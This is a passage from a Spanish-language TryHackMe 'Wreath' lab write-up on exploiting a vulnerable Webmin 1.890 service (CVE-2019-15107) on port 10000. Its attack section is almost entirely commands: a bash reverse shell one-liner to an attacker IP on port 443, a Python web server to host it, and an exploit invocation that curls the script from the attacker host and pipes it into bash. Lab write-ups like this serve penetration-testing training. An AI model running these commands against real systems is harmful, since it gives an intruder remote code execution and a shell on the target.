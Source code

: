 #### 3. Webmin

Como hemos visto en el puerto `10000` se aloja un servicio `Webmin` y que si revisamos nuestros resultados de [nmap](https://hacknotes.gitgub.io/tryhackme/wreathWriteUp/#servicios-y-versiones) veremos que la versión de este servicio es `1.890`.

Si buscamos esta versión del servicio `Webmin` notaremos que es una versión vulnerable y que gracias a ello podremos ejecutar comandos sobre el sistema que lo aloja.

Existen varios `exploits` para esta vulnerabilidad, pero en este caso yo utilizare mi propia variante. Pueden ejecutar cualquier comando pero para este caso iremos directo a obtener un `reverse shell`.

**Necesitaremos:**

- [webminExploit.py](https://github.com/hacknotes/CVE-2019-15107-Exploit)
- Reverse shell `(exploit.sh)`.
- Habilitar un servidor web.

**exploit.sh**

```python
bash -i >& /dev/tcp/10.50.195.140/443 0>&1
```

**Servidor Web**

```python
python -m SimpleHTTPServer 80
```

**Comando:**

```python
python3 webminExploit.py 10.200.198.200 10000 "curl http://10.50.195.140/exploit.sh | bash"
```

![Webmin Exploit](/assets/images/report/firstTarget.png)
